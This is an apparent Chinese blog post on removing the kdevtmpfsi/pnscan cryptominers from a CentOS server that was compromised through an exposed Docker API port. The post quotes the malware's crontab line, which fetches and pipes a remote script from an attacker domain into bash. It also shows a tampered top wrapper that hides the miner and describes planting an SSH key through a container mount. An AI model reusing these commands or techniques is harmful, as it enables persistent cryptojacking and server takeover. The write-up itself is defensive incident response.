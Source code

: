 ```yaml
---
title: pnscan挖矿病毒排查过程记录
---
```


> 记一次服务器被挖矿病毒攻击问题排查

- 原因：因为docker远程连接，开放了默认端口2375，导致中了挖矿病毒kdevtmpfsi，pnscan

- 现象：CPU占用拉满，定时任务向6379端口持续发送信息

1. 首先想到使用top命令排查进程，发现top无法使用，显示`permission denied` ，

   ```shell
   [root@VM-16-4-centos bin]# top
   -bash: /usr/bin/top: Permission denied
   ```

2. 查询后获悉`top` 命令被篡改为如下

   ```shell
   [root@VM-16-4-centos bin]# cat /usr/bin/top
   #!/bin/bash
   top.lanigiro $@ | grep -v 'ddns\|scan'
   ```

3. 拷贝原有top脚本，通过ftp传输，发现无法覆盖`top` 文件，使用 `lsattr` 命令查看文件属性，果然为被设置为了 `-i`  不可修改：

   ```shell
   [root@VM-16-4-centos bin]# lsattr /usr/bin/top
   ----i--------e-- /usr/bin/top
   ```

4. 打算使用`chattr` 命令删除`-i` 参数，发现`chattr` 命令不可用，也被删除掉了

   ```shell
   [root@VM-16-4-centos bin]# chattr
   -bash: chattr: command not found
   ```

5. 只能重新安装`chattr` 命令，查看安装包版本，先删除再安装`e2fsprogs` 包

   ```shell
   [root@VM-16-4-centos bin]# rpm -qa|grep e2fsprogs
   e2fsprogs-libs-1.42.9-19.el7.x86_64
   e2fsprogs-1.42.9-19.el7.x86_64
   [root@VM-16-4-centos bin]# yum remove e2fsprogs-1.42.9-19.el7.x86_64
   [root@VM-16-4-centos bin]# yum install e2fsprogs-1.42.9-19.el7.x86_64
   ```

6. 重装后`chattr` 命令终于可用，修改文件属性，使用FTP工具传输覆盖`top` 命令，仍然无法使用top命令，于是改安装`htop` 命令

   ```shell
   yum -y install htop
   ```

7. 使用`htop` 命令查看，发现挖矿病毒，继续排查

   ![1654084303957](C:\Users\sherlock\AppData\Roaming\Typora\typora-user-images\1654084303957.png)

8. 查看定时任务，并停止，发现cron脚本也被感染无法更改（心肺停止...）

   ```shell
   [root@VM-16-4-centos bin]# crontab -l
   */30 * * * * /usr/bin/cdz -fsSL http://oracle.zzhreceive.top/b2f628/b.sh | bash > /dev/null 2>&1
   
   [root@VM-16-4-centos bin]# crontab -e
   
   */30 * * * * /usr/bin/cdz -fsSL http://oracle.zzhreceive.top/b2f628/b.sh | bash > /dev/null 2>&1
   
   ```

9. 修改`cron` 文件属性，修改后删除定时任务，再使用`htop` 命令查看，CPU占用明显降低，仅剩  **pnscan** 病毒

   ```shell
   [root@VM-16-4-centos bin]# chattr -iae /var/spool/cron/root 
   [root@VM-16-4-centos bin]# lsattr /var/spool/cron/
   -------------e-- /var/spool/cron/root
   [root@VM-16-4-centos bin]# crontab -e
   crontab: installing new crontab
   
   ```

10. 但修改后仍然无法删除定时任务脚本只能编辑，原来可能存在隐藏文件，`lsattr -a` 命令查看果然有，同样`chattr` 修改对应文件属性

    ```shell
    [root@VM-12-14-centos cron]# lsattr -a
    ----ia-------e-- ./.
    -------------e-- ./..
    ---------------- ./root
    [root@VM-12-14-centos cron]# chattr -iae .
    [root@VM-12-14-centos cron]# chattr -iae ..
    [root@VM-12-14-centos cron]# lsattr -a
    ---------------- ./.
    ---------------- ./..
    ----------------./root
    ```

11. 去除pnscan，用htop命令查看 pnscan进程位置，删除对应文件，至此pnscan病毒搞定

    ```shell
    [root@VM-12-14-centos bin]# rm -f pnscan
    ```

12. 终于发现被攻击原因，因为docker远程连接，开放了默认端口2375，导致中了挖矿病毒，具体原因分析如下：

- docker开放2375端口用于远程管理容器，而容器本身可以挂载服务器目录；
- 因此攻击者通过2375端口，拉取做好的镜像，启动容器时挂载`~/.ssh` 目录 在 `authorized_keys` 中添加了攻击者的公钥，至此，攻击者获得服务器控制权，进而执行病毒脚本。
  
- 参考：https://www.techug.com/post/do-a-hacker-invade-a-server.html

> 后记：外网环境应通过`TLS`方式开启docker远程端口访问，配置细节可站内搜索《docker环境及常用镜像安装》  